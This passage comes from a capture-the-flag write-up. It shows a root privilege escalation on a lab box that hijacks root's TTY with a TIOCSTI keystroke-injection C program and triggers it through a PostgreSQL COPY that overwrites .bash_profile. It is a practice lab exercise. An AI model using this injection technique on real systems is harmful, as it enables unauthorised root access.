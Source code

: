 However, the shell dies quickly, presumably because the connection cuts out when `root` runs `su -l` again. At least I know that this works.&#x20;

### TTY Hijack --> Root

I found it rather odd that `su -l` was used instead of a regular `su`. Using `w`, we know that `root` is logged in and has a TTY shell of its own.

```
wesley@download:/tmp$ w                                                                      
 04:47:53 up  8:33,  3 users,  load average: 0.33, 0.37, 0.35                                
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                          
wesley   pts/0    10.10.14.7       03:02    0.00s  0.34s  0.01s w
root     pts/1    127.0.0.1        04:47   13.00s  0.08s  0.04s /usr/lib/postgresql/12/bin/p
```

I was thinking whether there were ways to hijack this session. Searching for `root su hijack` shows me this article:

{% embed url="https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking" %}

The website above included a PoC in C. I changed the command executed first to test it:

```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
int main() {
    int fd = open("/dev/tty", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    char *x = "exit\n/bin/bash -c 'cp /root/root.txt /tmp/root.txt'\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```

Then, I compiled it using `gcc` and transferred to the machine and then ran `chmod` on it. Afterwards, I ran the same SQL command to execute this compiled exploit as `root`:

```sql
COPY (SELECT CAST('/tmp/exploit' AS text)) TO '/var/lib/postgresql/.bash_profile';
```

After waiting for a bit, the `root` flag appeared within the `/tmp` directory, confirming that it works:

<figure><img src="../../.gitbook/assets/image (813).png" alt=""><figcaption></figcaption></figure>
